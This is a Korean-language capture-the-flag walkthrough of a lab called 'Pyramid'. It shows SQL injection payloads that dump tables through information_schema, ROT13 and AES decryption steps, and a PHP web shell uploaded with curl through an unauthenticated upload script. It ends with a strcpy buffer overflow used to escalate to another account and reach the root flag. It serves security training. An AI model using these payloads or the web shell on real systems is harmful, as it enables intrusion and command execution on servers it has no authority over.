









1. 서비스 식별 및 기본 SQLi 확인
지정된 Pyramid 서버 IP를 확인한 뒤, HTTP 서비스에 접속하여 검색 기능이 있는 페이지를 확인하였다.
 초기 진입 페이지 화면
초기 진입 페이지 화면
검색 파라미터에 ' OR '1'='1 형태의 가장 기초적인 SQLi 페이로드를 입력했을 때,
모든 행이 반환되는 동작을 통해 필터링이 거의 없고 쿼리가 직접 조작 가능함을 확인하였다.

기본 SQLi 페이로드로 전체 레코드 조회
- 입력값이 필터링 없이 DB 쿼리에 직접 사용된다.
- 파라미터
name이 GET 방식으로 그대로 노출된다.
- 화면에 3개의 컬럼만 출력되지만, 실제 쿼리는 더 많은 컬럼을 포함할 수 있다.
SELECT, OR 등의 키워드가 차단되지 않아 SQLi 취약점 존재가 확실하다.
2. UNION 기반 테이블·컬럼 정보 수집
컬럼 개수를 맞춘 뒤 UNION SELECT를 활용하여 현재 데이터베이스의 테이블 이름을 추출하였다.
' UNION SELECT 1, group_concat(table_name), 3
FROM information_schema.tables
WHERE table_schema = database() --

두 번째 컬럼 위치에 테이블 목록 출력
이후 식별한 대상 테이블(예: pharaohs)에 대해 컬럼 목록을 추출하고자 하였다.
' UNION SELECT 1, group_concat(column_name), 3
FROM information_schema.columns
WHERE table_name = 'pharaohs' --
 테이블 컬럼 전체 목록 수집
테이블 컬럼 전체 목록 수집
3. 민감 정보 추출 및 ROT13 힌트 해석
최종적으로 pharaohs 테이블의 민감 컬럼(secret_info)을 대상으로 조건부 조회를 수행하여
다음 단계로 이어지는 힌트를 얻었다.
' UNION SELECT 1, 2, secret_info
FROM pharaohs
WHERE id = 6 --

secret_info 컬럼에서 최종 힌트 조회
페이지 소스 주석에는 길고 난해한 문자열이 포함되어 있었고,
ROT13 디코딩 도구(예: rot13.com)를 사용해 해석한 결과,
SSH 정보가 아닌 웹 디렉터리 경로와 흐름을 따라가라는 암시임을 파악하였다.
 ROT13 디코딩을 통한 텍스트 해석
ROT13 디코딩을 통한 텍스트 해석
메시지에 포함된 슬래시(/)와 특정 단어 조합을 통해 URL 패턴을 유추하고,
http://pyramidIP/the_architect_of_the_Great_Pyramid 형태의 경로가 다음 스테이지 진입점이라는 결론에 도달하였다.
 문자열 내부의 디렉터리 경로 힌트
문자열 내부의 디렉터리 경로 힌트
1. Fragment 수집 (HTML, JS, 이미지 메타데이터)
/the_architect_of_the_Great_Pyramid/에 접속하면 fragment가 세 곳에 나뉘어 존재한다는 안내 문구와
위치에 대한 간단한 힌트를 확인할 수 있다.
세 개의 fragment와 위치에 대한 설명
- Fragment 1: 페이지 소스 내 주석에서
Xv9A 문자열 확인.
- Fragment 2:
assets/script.js에서 MuS7라는 hex 관련 힌트 확보.
- Fragment 3:
assets/hint.png 이미지 메타데이터의 Comment 필드에서 z9Qp 발견 (exiftool 사용).

hint.png 메타데이터 Comment 필드의 fragment
2. Fragment 결합 및 키 파생
세 fragment를 지정된 순서대로 이어붙여 하나의 문자열로 만든 뒤,
페이지 하단에 안내된 쉘 스크립트 로직을 사용해 AES 키를 파생하였다.
concat="Xv9AMuS7z9Qp"
keyhex=$(echo -n "$concat" | openssl dgst -sha256 -binary | xxd -p -c 256 | cut -c1-32)
echo "Derived key (hex, 16 bytes): $keyhex"

페이지 하단에 제공된 키 파생 쉘 스크립트
동시에 페이지 상에는 base64 인코딩된 암호문이 주어지며,
해당 값을 변수 b64로 사용하도록 가이드가 포함되어 있다.
3. Base64 디코딩 및 AES-128-CBC 복호화
제공된 스크립트 흐름에 맞추어 payload를 단계적으로 처리하여 평문을 얻었다.
- base64 디코딩:
b64를 디코딩하여 /tmp/payload.bin으로 저장.
- IV 추출: 파일의 처음 16바이트를 IV로 사용하고, 나머지 부분을 암호문으로 분리.
- AES 복호화: 파생된 키(
keyhex)와 IV를 사용해 AES-128-CBC 모드로 복호화.
echo -n "$b64" | base64 -d > /tmp/payload.bin
ivhex=$(xxd -p -l 16 /tmp/payload.bin | tr -d '\n')
dd if=/tmp/payload.bin of=/tmp/cipher.bin bs=1 skip=16 status=none
openssl enc -d -aes-128-cbc -in /tmp/cipher.bin \
-K "$keyhex" -iv "$ivhex" -out /tmp/plain.txt 2>/tmp/openssl.err || true
cat /tmp/plain.txt

복호화된 평문에서 다음 단계 비밀번호 추출
최종 평문에서 luckforyournext_!21! 형태의 문자열을 확인했고,
이는 이후 웹 게임 단계 진입 시 사용하는 패스워드로 활용되었다.
1. game.php 진입 및 다중 페이지 플로우
앞 단계에서 얻은 비밀번호 luckforyournext_!21!를 이용해
game.php에 진입한다.
 비밀번호 입력 후 game.php 진입
비밀번호 입력 후 game.php 진입
-
첫 번째 이미지 →
mirro.php: 미로 탈출 후 flag
uvrebtylcuvp 획득 → ROT13 디코딩 → hieroglyphic 도출.
-
두 번째 이미지 →
image.php: 특정 영역 클릭 시 다음 페이지 이름
chamber에 대한 모달 힌트 확인.
 미로 클리어 후 얻은 ROT13 인코딩 flag
미로 클리어 후 얻은 ROT13 인코딩 flag
2. 이집트 상형문자 해석 및 Tomb.php 유도
chamber.php에 접속하여 앞서 얻은 비밀번호
hieroglyphic를 입력하면, 화면에는 이집트 상형문자로 작성된 암호문이 나타난다.
상형문자-알파벳 매핑 표를 참고해 해석한 결과 artifact라는 flag를 얻었고,
특정 위치 클릭 시 다음 페이지 이름 Tomb에 대한 모달 힌트를 통해
Tomb.php로의 이동을 유도한다.
 이집트 상형문자를 해석해 artifact flag 획득
이집트 상형문자를 해석해 artifact flag 획득
3. Tomb.php 파일 업로드 취약점 이용
Tomb.php에서 artifact를 비밀번호로 입력하면,
파일 업로드 UI가 나타나지만 직접 업로드 시에는 권한 부족으로 거부된다.
그러나 서버 측 업로드 처리 스크립트 upload.php는 세션 또는 권한 검증 없이
업로드를 허용하는 취약점이 존재하여, 직접 POST 요청을 보내면 임의 파일을 업로드할 수 있다.
사용자 인터페이스 상에서는 업로드가 제한된 모습
다음과 같이 간단한 PHP 셸 파일을 준비하고, curl을 이용해 업로드를 수행하였다.
# 1) test.php 작성
<?php system($_GET['cmd']); ?>
# 2) curl을 사용해 upload.php로 직접 업로드 (서버는 예시 IP)
curl -v -F "file=@./test.php;filename=shell.php" \
http://192.168.16.15/upload.php
# 3) /uploads 디렉터리 접근
# (디렉터리는 dirb 등으로 브루트포싱 가능)
 /uploads 디렉터리에서 업로드된 shell.php 확인
/uploads 디렉터리에서 업로드된 shell.php 확인
업로드된 shell.php에 접근해 명령 실행 또는 flag 출력을 확인할 수 있었고,
이 flag는 다음 SSH 단계의 사용자 비밀번호로 사용되었다.
 웹 셸 페이지에서 flag 확인
웹 셸 페이지에서 flag 확인
1. SSH 진입 및 초기 정찰
앞 단계에서 얻은 정보를 바탕으로 khufu 계정으로 SSH 접속을 시도하였다.

khufu 계정 SSH 로그인
로그인 후 ls -la로 홈 디렉터리 구조를 확인한 결과,
papyrus, room/, rosetta_stone 등의 파일과 디렉터리가 존재하는 것을 확인하였다.
 khufu 홈 디렉터리 내 주요 아티팩트
khufu 홈 디렉터리 내 주요 아티팩트
2. room 디렉터리 분석 및 C 코드 조립
/home/khufu/room 하위에는 1, 2, 3, 4 등의 디렉터리가 존재하며,
이 중 1, 2, 4 디렉터리에는 공통된 이름의 offering 파일이 포함되어 있었다.
 room 디렉터리와 하위 디렉터리들
room 디렉터리와 하위 디렉터리들
각 offering 파일에는 C 코드 일부가 담겨 있었고,
이를 조합하면 system() 호출과 strcpy(altar, offering) 구문을 포함하는 하나의 C 프로그램이 완성되었다.
char code[] = "touch /home/khufu/.<encoded_path>";
int core = system(code);
char guard[1];
char altar[7];
// ...
strcpy(altar, offering);
altar 버퍼 크기보다 큰 입력을 offering에 주입하면
버퍼 오버플로우가 발생할 수 있고, 이를 통해 의도한 파일 생성이나 코드 흐름 제어가 가능하다는 점을 파악하였다.
3. book_pen 활용 및 상위 계정 획득
room 디렉터리 내 book_pen 바이너리는 사용자의 입력을 offering에 반영하고,
취약한 C 코드 로직을 수행하는 역할을 했다.

book_pen 바이너리 실행 및 입력 전달
특정 패턴의 입력을 사용하여 내부 로직이 숨겨진 경로에 파일을 생성하도록 유도하였고,
이 과정을 통해 최종적으로 상위 계정(tutankhamun)에 대한 비밀번호
2gHsQQTDGYNerJuyFFGeUkFEVDj6를 추출해 SSH 접속에 성공하였다.
 book_pen 실행 결과에서 tutankhamun 패스워드 도출
book_pen 실행 결과에서 tutankhamun 패스워드 도출
4. 최종 root flag 획득
tutankhamun 계정으로 로그인한 뒤, 상위 권한이 필요한 디렉터리와 파일을 탐색하여
루트 디렉터리 내부에 위치한 최종 flag 파일을 확인하였다.

root 디렉터리 내 최종 flag 파일
파일 내용을 확인함으로써 Pyramid CTF 전 스테이지에 대한 공격 체인과 권한 상승 경로를
모두 완주하였다.